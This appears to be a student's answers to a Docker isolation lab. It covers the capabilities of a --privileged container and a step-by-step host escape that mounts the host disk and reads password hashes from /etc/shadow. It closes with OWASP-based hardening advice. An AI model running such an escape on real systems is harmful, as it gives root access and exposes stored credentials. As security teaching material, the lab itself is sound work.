



#+title: Isolation Part 3 - Answers

Scott started it with:

#+begin_src sh
  docker run -d --privileged -p 80:80 isepdei/insecurelabs03
#+end_src

Artifacts:
- =TARGETS/target-14/= - capability evidence for Q14.
- =TARGETS/target-15/= - fdiks, lsblk and mount transcript + exploit video

* Q14: What are the capabilities of the container?

Because of =--privileged=, the container runs with the *entire* Linux
capability set.

Inside the container:
#+begin_src sh
  > docker exec lab03 sh -c 'capsh --print'
#+end_src

#+begin_src sh
  > docker exec lab03 sh -c 'grep Cap /proc/1/status'
  CapInh:	0000000000000000
  CapPrm:	000001ffffffffff
  CapEff:	000001ffffffffff
  CapBnd:	000001ffffffffff
  CapAmb:	0000000000000000
  NoNewPrivs:	0
  Seccomp:	0
#+end_src

#+begin_src sh
    > docker exec lab03 capsh --decode=000001ffffffffff
#+end_src

** Why that matters?

A container started *without* =--privileged= gets only Docker's default
14-capability allow-list:

| Setting  | Default container        | =--privileged=                 |
|----------+--------------------------+--------------------------------|
| CapEff   | =00000000a80425fb= (14)  | =000001ffffffffff= (41, all)   |

The capabilities unlocked on top of the default set are exactly the
dangerous ones: =cap_sys_admin= (the "new root"),
=cap_sys_module= (load kernel modules), =cap_sys_rawio= (raw I/O on devices),
=cap_sys_ptrace=, =cap_dac_read_search=, =cap_mknod=, =cap_sys_boot=,
=cap_mac_admin=, =cap_bpf=, ...

* Q15: What can go wrong? Exploit the host (fdisk is installed).

A =--privileged= container is *not isolated from the host at all*. Any code
that reaches root inside it (and the entrypoint already runs as root) owns the
whole host. The simplest, 100%-reliable exploit here is to *mount the host
root filesystem* - which is exactly what the pre-installed =fdisk= hints at.

** The exploit, step by step

#+begin_src sh
  # 1. We are root inside the container, but the container hostname is just its ID
  > docker exec lab03 hostname
  2bc7bd19b726

  # 2. Moun the host filesystem in the container
  > docker exec lab03 fdisk -l /dev/vda
  /dev/vda1     2048   2203647   2201600    1G EFI System
  /dev/vda2  2203648 134215679 132012032 62.9G Linux filesystem

  > docker exec lab03 sh -c 'mkdir -p /mnt/host && mount /dev/vda2 /mnt/host'

  > docker exec lab03 cat /mnt/host/etc/hostname
  decys

  # 3. grep for passwords present in etc/shadow (https://linuxize.com/post/etc-shadow-file/)
  > docker exec lab03 grep -E '^root:|^v:' /mnt/host/etc/shadow
  root:*:20704:0:99999:7:::
  v:$y$j9T$.FKC3Jl/41EtRJkZwG54A/...:20765:0:99999:7:::
#+end_src

** Video

[[file:screenshots/exploit.mov]]

* Q17: Good practices for Docker security

*The headline rule: never use =--privileged= as a fix.* It was Scott's shortcut
for "some issues" and it is what made Q15/Q16 possible. If a container needs one
specific thing, grant that one thing, not everything.

The practices below follow the [[https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html][*OWASP Docker Security Cheat Sheet*]],
which is organised as a numbered list of rules. We highlight some of the rules
most relevant to what went wrong in this lab rather than reproducing all of them.

** Limit capabilities - never =--privileged= (RULE #3)
- OWASP is explicit: drop all capabilities and add back only what is needed, and
  *never run with =--privileged==*. That single flag is what gave target-14 the
  full 41-capability set and made the host mount in Q15 trivial.
- If a capability is genuinely required:
  =--cap-drop=ALL --cap-add=NET_BIND_SERVICE=.
- Need a device? Pass just that device (=--device=/dev/foo=), never the whole host.

** Set a non-root user (RULE #2)
- Run as an unprivileged user via a =USER= line in the Dockerfile, =docker run -u=,
  or =--userns-remap=. The entrypoint running as root is what made the escape
  one step long.

** Prevent in-container privilege escalation (RULE #4)
- Run with =--security-opt=no-new-privileges= so a process can't gain more
  privileges via setuid binaries. Note =NoNewPrivs: 0= in the target-14
  =/proc/1/status= dump - the opposite of this.

** Set the filesystem to read-only (RULE #8)
- Use =--read-only= with =--tmpfs= for the paths that genuinely need to be writable,
  and mount volumes read-only (=:ro=). This blocks tampering with on-disk binaries.

** Scan images in CI/CD (RULE #9)
- Integrate image scanning (Trivy, Grype, Clair, =docker scout=) and linting into
  the pipeline; pin base-image digests and rebuild to pick up patches. A minimal
  base (distroless / =-slim=) also means fewer tools for an attacker - Scott even
  installed =fdisk= *into* the container.

** Use Docker secrets, not baked-in env (RULE #12)
- Keep credentials out of images and command lines: use Docker secrets / BuildKit
  =RUN --mount=type=secret= rather than =ENV=, =ARG=, or =COPY=. (This is exactly
  the mistake Part 1 recovered from the image layers.)

** Protect the host and the daemon (RULE #0, #1)
- Keep the host kernel and Docker Engine patched - containers share the host
  kernel, so a known escape is root on the host.
- Never expose the Docker daemon socket or mount =/var/run/docker.sock= into a
  container; access to it is effectively root on the host.

In short, OWASP's rules all restate least privilege: no =--privileged=, non-root
user, no-new-privileges, drop capabilities, read-only rootfs, and secrets kept
out of the image.
